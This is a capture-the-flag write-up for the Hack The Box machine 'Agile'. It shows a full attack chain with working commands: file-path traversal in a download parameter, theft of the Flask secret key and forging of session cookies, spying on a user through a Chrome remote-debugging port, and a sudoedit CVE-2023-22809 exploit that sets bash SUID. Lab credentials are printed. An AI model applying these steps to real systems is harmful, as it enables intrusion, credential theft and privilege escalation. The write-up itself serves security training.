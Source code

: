 # Agile

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 10.129.172.106
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-06 09:31 EST
Nmap scan report for 10.129.172.106
Host is up (0.17s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

We need to add `superpass.htb` to our `/etc/hosts` file to access port 80.

### SuperPassword --> LFI

The website advertised a password manager.

<figure><img src="../../.gitbook/assets/image (4) (1) (7).png" alt=""><figcaption></figcaption></figure>

I tested by registering a user to see what functionalities this application has. I registed a username and got an error, revealing that this is a Flask application. Not sure if this was supposed to happen

<figure><img src="../../.gitbook/assets/image (21) (2) (4).png" alt=""><figcaption></figcaption></figure>

Anyways, when I tried again it worked and brought me to a dashboard where I can add a password and Export passwords.

<figure><img src="../../.gitbook/assets/image (20) (8).png" alt=""><figcaption></figcaption></figure>

The Export function looks rather exploitable. I added some passwords, then tried to download the file and was presented with this HTTP request:

```http
GET /download?fn=newuser_export_611199da8a.csv HTTP/1.1
Host: superpass.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: remember_token=9|8f50cc62e035672203937ef350c45d6a6780afafd9114b725dfb34ffa10cd42e92e484635b44b3f13d76ce1f6af818f2501684844daf93217e66ec4af933165f; session=.eJwlzjEOwzAIAMC_MHewgYDJZyJiQO2aNFPVvzdS51vuA1sdeT5hfR9XPmB7BaygREnUXHNahqQzMpG1bqUkrMWFSN3CzW4tHTI6Kk5H8d0jVaa6OZlbaFMxDqlR0tBmYx6Yfei-hA0WGr4IlfalocRu0wTuyHXm8d8YfH9o4y4B.ZAX6Tg.txUnjeEEeD_3BB80vD96et6vwwU
Upgrade-Insecure-Requests: 1
```

The `fn` paramete was vulnerable to LFI.

<figure><img src="../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

We find 4 users, `runner`, `corum`, `edwards`, and `dev_admin`. We know that this is a Flask application, so the source code for `app.py` is probably in some `/app/app/main` directory or something along those lines.  Some testing revealed that it was located in `../app/app/superpass/app.py`.

We can grab the SECRET\_KEY variable from here and be able to spoof our own cookies using `flask-unsign`.

```
app.config['SECRET_KEY'] = 'MNOHFl8C4WLc3DQTToeeg8ZT7WpADVhqHHXJ50bPZY6ybYKEr76jNvDfsWD'
```

### Cookie Spoofing --> SSH Creds

Now that we have the SECRET\_KEY, we can decrypt the cookie.

{% code overflow="wrap" %}
```
$ flask-unsign --decode --cookie '.eJwlzjEOwzAIAMC_MHewgYDJZyJiQO2aNFPVvzdS51vuA1sdeT5hfR9XPmB7BaygREnUXHNahqQzMpG1bqUkrMWFSN3CzW4tHTI6Kk5H8d0jVaa6OZlbaFMxDqlR0tBmYx6Yfei-hA0WGr4IlfalocRu0wTuyHXm8d8YfH9o4y4B.ZAX6Tg.txUnjeEEeD_3BB80vD96et6vwwU' --secret 'MNOHFl8C4WLc3DQTToeeg8ZT7WpADVhqHHXJ50bPZY6ybYKEr76jNvDfsWD'
{'_fresh': True, '_id': '733e330a7ec9ed6ea424339019f73647f4f22319da996eaf78681272ca26abade76c7a9a39a9d707694d6f8f6029c04482e187b5d984638a563f715026db9c96', '_user_id': '9'}
```
{% endcode %}

Now, we can change the `_user_id` parameter and hopefully login as other users with stored passwords. We can keep changing the user ID to anything we want and keep getting different passwords. Here are some interesting ones:

```html
<td>hackthebox.com</td>
    <td>0xdf</td>
    <td>762b430d32eea2f12970</td>
<td>mgoblog.com</td>
    <td>0xdf</td>
    <td>5b133f7a6a1c180646cb</td>
<td>agile</td>
    <td>corum</td>
    <td>5db7caa1d13cc37c9fc2</td>
```

That last one for `corum` is a valid password for SSH.

<figure><img src="../../.gitbook/assets/image (5) (8).png" alt=""><figcaption></figcaption></figure>

Then we can easily grab the user flag.

## Privilege Escalation

### Chrome Debugging --> Edwards

I ran a LinPEAS scan and thsi was the one thing that stood out the most:

{% code overflow="wrap" %}
```
runner      3486  0.1  2.5 34023392 103408 ?     Sl   14:49   0:00                      _ /usr/bin/google-chrome --allow-pre-commit-input --crash-dumps-dir=/tmp --disable-background-networking --disable-client-side-phishing-detection --disable-default-apps --disable-gpu --disable-hang-monitor --disable-popup-blocking --disable-prompt-on-repost --disable-sync --enable-automation --enable-blink-features=ShadowDOMV0 --enable-logging --headless --log-level=0 --no-first-run --no-service-autorun --password-store=basic --remote-debugging-port=41829 --test-type=webdriver --use-mock-keychain --user-data-dir=/tmp/.com.google.Chrome.MLKYLq --window-size=1420,1080 data:
```
{% endcode %}

It would appear that there is a --remote-debugging-port being used. Essentially, it means that this port is open and running Chrome. With credentials for SSH, we can port forward this and perhaps access it from our machine to see what the user is doing.

So we can first port forward this thing using `ssh`.

```bash
ssh -L 41829:127.0.0.1:41829 corum@superpass.htb
```

Afterwards, we can use Burpsuite's Chromium browser (that is in-built) to access this thing. This resource was rather helpful:

{% embed url="https://developers.google.com/cast/docs/debugging/remote_debugger" %}

Just add `localhost:41829` to the Discover Network Targets portion, and we will pick up on the target.

<figure><img src="../../.gitbook/assets/image (7) (7).png" alt=""><figcaption></figcaption></figure>

We can inspect this to basically spy on the user.&#x20;

<figure><img src="../../.gitbook/assets/image (10) (1) (5).png" alt=""><figcaption></figcaption></figure>

I visited the `/vault` directory and found some secret credentials.

<figure><img src="../../.gitbook/assets/image (227).png" alt=""><figcaption></figcaption></figure>

Then, we can `su` to `edwards`.

### Sudoedit CVE-2023-22809

Checking `edwards` `sudo` privileges, we see this:

```bash
edwards@agile:/home/corum$ sudo -l
[sudo] password for edwards: 
Matching Defaults entries for edwards on agile:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User edwards may run the following commands on agile:
    (dev_admin : dev_admin) sudoedit /app/config_test.json
    (dev_admin : dev_admin) sudoedit /app/app-testing/tests/functional/creds.txt
```

In short, we edit some files as `dev_admin`. I read files and found some credentials

{% code overflow="wrap" %}
```
# creds.txt
edwards:1d7ffjwrx#$d6qn!9nndqgde4
# config_test.json
"SQL_URI": "mysql+pymysql://superpasstester:VUO8A2c2#3FnLq3*a9DX1U@localhost/superpasstest"
```
{% endcode %}

However, the credentials here lead to dead ends, with the SQL database having nothing of interest. I ran a `pspy64` to see if there were any exploitable processes. This one line looked rather suspicious because `dev_admin` had write access to it:

{% code overflow="wrap" %}
```
2023/03/06 15:16:01 CMD: UID=0    PID=37141  | /bin/bash -c source /app/venv/bin/activate 

edwards@agile:/tmp$ ls -la /app/venv/bin/activate
-rw-rw-r-- 1 root dev_admin 1976 Mar  6 15:15 /app/venv/bin/activate
```
{% endcode %}

Checking the `sudo` version online, I found that it was vulnerable to CVE-2023-22809.

In short, this exploit allows us to write in **any file we want** using `sudoedit` despite the restrictions we have in place. The `activate` file I found earlier was a `bash` script being executed by root. So, all we need to do is append some commands to it to make `/bin/bash` an SUID binary.

{% embed url="https://www.synacktiv.com/sites/default/files/2023-01/sudo-CVE-2023-22809.pdf" %}

Following the PoC, we just /app/venv/bin/activateave to execute these commands:

```bash
export EDITOR='vim -- /app/venv/bin/activate'
sudo -u dev_admin sudoedit /app/config_test.json
```

This opens up the `activate` file and we are free to edit it. We can add `chmod u+s /bin/bash` into it. Then we can easily become `root`.

<figure><img src="../../.gitbook/assets/image (228).png" alt=""><figcaption></figcaption></figure>
